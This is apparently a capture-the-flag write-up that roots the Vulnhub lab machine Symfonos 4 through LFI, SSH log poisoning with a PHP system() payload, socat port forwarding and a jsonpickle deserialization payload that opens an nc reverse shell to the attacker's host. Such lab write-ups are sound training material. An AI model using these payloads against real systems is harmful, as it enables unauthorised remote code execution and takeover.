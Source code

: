 ```yaml
---
title:     "Vulnhub - Symfonos 4"
tags: [medium,port_forward,log-poisoning,mysql]
---
```


Today, We are going to pwn Symfonos 4 by Zayotic from Vulnhub

## Description:

```
OSCP-like Intermediate real life based machine designed to teach people the importance of trying harder.
```
Download Link : <https://www.vulnhub.com/entry/symfonos-4,347/>

Lets Begin with our Initial Scan

## Nmap Scan Results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 f9:c1:73:95:a4:17:df:f6:ed:5c:8e:8a:c8:05:f9:8f (RSA)
|   256 be:c1:fd:f1:33:64:39:9a:68:35:64:f9:bd:27:ec:01 (ECDSA)
|_  256 66:f7:6a:e8:ed:d5:1d:2d:36:32:64:39:38:4f:9c:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:8C:D3:8B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

## HTTP:

Normal webpage with an image like always.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/1.png)

Since there is no other interesting Ports Open, I started Gobuster on the webpage.

Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.1.136
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html
[+] Timeout:        10s
===============================================================
2020/03/12 19:39:13 Starting gobuster
===============================================================
/index.html (Status: 200)
/css (Status: 301)
/manual (Status: 301)
/js (Status: 301)
/javascript (Status: 301)
/sea.php (Status: 302)
/atlantis.php (Status: 200)
/server-status (Status: 403)
/gods (Status: 301)
===============================================================
2020/03/12 19:41:23 Finished
===============================================================
```

``/gods``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/2.png)

Downloaded all log files to my machine.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/3.png)

``hades.log``

>Hades was the god of the underworld and the name eventually came to also describe the home of the dead as well. He was the oldest male child of Cronus and Rhea. Hades and his brothers Zeus and Poseidon defeated their father and the Titans to end their reign, claiming rulership over the cosmos.

``poseidon.log``

>Poseidon was the god of the sea, earthquakes and horses. Although he was officially one of the supreme gods of Mount Olympus, he spent most of his time in his watery domain. Poseidon was brother to Zeus and Hades. These three gods divided up creation.

``zeus.log``

>Zeus is the god of the sky, lightning and thunder in Ancient Greek religion and myth, and king of the gods on Mount Olympus. Zeus is the sixth child of Kronos and Rhea, king and queen of the Titans.

``/atlantis.php``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/4.png)

``/sea.php``

Whenever I open ``/sea.php`` it redirects to ``/atlantis.php``. Lets capture the request in burp.

``302 Found`` which is redirection, We can stop a redirection using burp.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/5.png)

All we need to do is change ``302 Found`` to ``200 Ok`` For that open ``Proxy -> Options -> Match and Replace``.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/6.png)

Now If I visit ``/sea.php`` it displays a new page.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/7.png)

So If I select a GOD the url changes to ``/sea.php?file=hades`` maybe Local File Inclusion.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/8.png)

But I can't view ``/etc/passwd`` so I searched for any log files and I got ``/var/log/auth`` We dont need to represent ``.log`` because we already saw those ``poseidon.log, zeus.log and hades.log`` in ``/gods`` with extension but in ``/sea.php`` it shows the same file even without the extensions.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/9.png)

When seeing those Log files it shows ``OpenSSH`` so we can do ``SSH Log Poisoning``

Reference :
>https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/

```ssh '<?php system($_GET['c']); ?>'@192.168.1.136```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/10.png)

Now its injected, Time to get reverse shell.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/11.png)

When checking ``/var/www/html/atlantis.php`` found ``mysql`` credentials.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/12.png)

``root : yVzyRGw3cG2Uyt2r``

I logged with those and got admin hash.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/13.png)

MySql Commands 
> http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm

I tried cracking the hash but I can't. So I skipped that and started looking for other things.

I started looking around in the directories and found ``/opt/code`` I found a python code. I came to know its ``jsonpickle`` so it may be running on the background.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/55.png)

Uploaded My Enumeration Script and Found this 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/14.png)

> - Port 3306 - MySQL
> - Port 8080 - Webpage (Maybe)

We can’t see port ``8080`` directly so We need to do [Port Forward](https://en.wikipedia.org/wiki/Port_forwarding) by doing this we can access the webpage from our machine.

I used ``socat`` method for port forwarding. We can also use ``SSH`` interactive shell for port forwarding too.
>https://www.cyberciti.biz/faq/linux-unix-tcp-port-forwarding/

>socat TCP-LISTEN:8081,fork TCP:127.0.0.1:8080

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/15.png)

Now I can visit ``http://192.168.1.136:8081``, It displays this page 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/16.png)

When I click the Main page it directs to 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/17.png)

But ``192.168.1.136:8081/whoami`` is suspecious, So I intercept the request in Burp 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/18.png)

``username`` looks like base64encoded so I decoded that 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/19.png)

So this is the thing we saw in ``/opt/code``

Later I found this [article](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)

So I did some changes in the string and encoded this to base64.

> {"py/object": "__main__.Shell", "py/reduce": [{"py/type": "os.system"}, {"py/tuple": ["/usr/bin/nc -e /bin/bash 192.168.1.103 1234"]}, null, null, null]}

Gave that base64 encoded to ``username`` and started my Listener and got shell.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/20.png)

I'm Root!!

!![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/21.png)